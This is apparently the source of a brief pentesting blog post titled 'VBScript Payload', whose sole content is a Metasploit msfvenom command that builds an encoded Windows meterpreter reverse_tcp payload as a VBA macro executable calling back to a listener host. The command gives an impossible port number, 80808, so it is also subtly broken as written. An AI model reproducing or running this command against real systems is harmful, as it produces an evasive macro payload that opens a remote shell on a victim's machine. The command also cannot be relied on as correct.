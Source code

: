 ```yaml
---
layout: post
title: VBScript Payload
categories: [Pentesting]
tags: [Kali, Linux]
description: Visual Basic Script Payload Metasploit Framework
fullview: false
comments: true
---
```


{% highlight yaml %}
$msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.xx LPORT=80808 -e x86/shikata_ga_nai -f vba-exe
{% endhighlight %}
